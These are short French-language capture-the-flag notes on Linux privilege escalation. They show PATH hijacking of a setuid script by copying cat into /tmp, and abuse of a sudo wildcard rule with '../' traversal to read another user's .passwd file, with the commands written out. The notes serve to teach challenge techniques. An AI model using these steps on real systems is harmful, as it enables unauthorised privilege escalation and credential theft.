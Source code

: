 ### Utilisation du PATH

Avec script c u+s

Copy de cat comme ls dans /tmp ou /var/tmp: $ cp /bin/cat /tmp/ls (n'importe quelle commande dont on a besoin cat ou nano ou autre)

modif du PATH dans lequelle les commande vont être exécutée: $ PATH=/tmp

éxecution du script qui va donc utiliser le cat comme ls

### Les dangers de sudo

sudo permet d'exécuter des commandes en tant qu'un autre utilisateur

sudo -l permet de voir quelle commandes peuvent être lancée et par quel utilisateur

sudo -u $user $commande

dans le cas de cette exercice:

'''bash 
$ sudo -l
User app-script-ch1 may run the following commands on challenge02:
    (app-script-ch1-cracked) /bin/cat /challenge/app-script/ch1/notes/*

$ sudo -u app-script-ch1-cracked /bin/cat /challenge/app-script/ch1/notes/*

$ sudo -u app-script-ch1-cracked cat /challenge/app-script/ch1/notes/../ch1cracked/.passwd
'''
